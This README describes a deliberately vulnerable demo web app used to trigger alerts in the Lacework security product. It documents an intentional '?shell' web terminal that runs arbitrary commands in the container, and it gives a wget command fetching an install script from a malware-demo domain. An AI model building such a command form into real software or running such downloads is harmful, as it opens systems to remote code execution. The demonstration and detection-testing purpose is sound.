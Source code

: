 # Kili Demo-App

Simple web demo application with vulnerabilities due to outdated Alpine OS in Dockerfile. Test-Change. 

The original image is based on a public hosted image and can be pulled like this:

```shell
docker pull ghcr.io/timarenz/lacework-demo-app:latest
```

When running this container make sure you map port `5000` (thats where the web app is listening on).

The container contains tools like `curl`, `wget`, `jq` and a full blown `bash` shell.

When accessing the application you see a single website and a random cocktail on the lower left side.
With every page load the app reads a random cocktail from `https://www.thecocktaildb.com` to simulate outgoing traffic to an external external host.

In addition if you load the page with the `?shell` parameter, like `http://<IPorFQDN>:5000/?shell` a small terminal icon will apear on the lower left.
Clicking this will open a form that allows you to run shell commands within the container to simluate a "RCE".

A simple example is running `wget  http://lwmalwaredemo.com/install-demo-1.sh` which triggers a critical alert in Lacework.

```shell
lw-scanner image evaluate ghcr.io/timarenz/lacework-demo-app latest --save
```

This gives you more visibility in the vulnerabilities view.
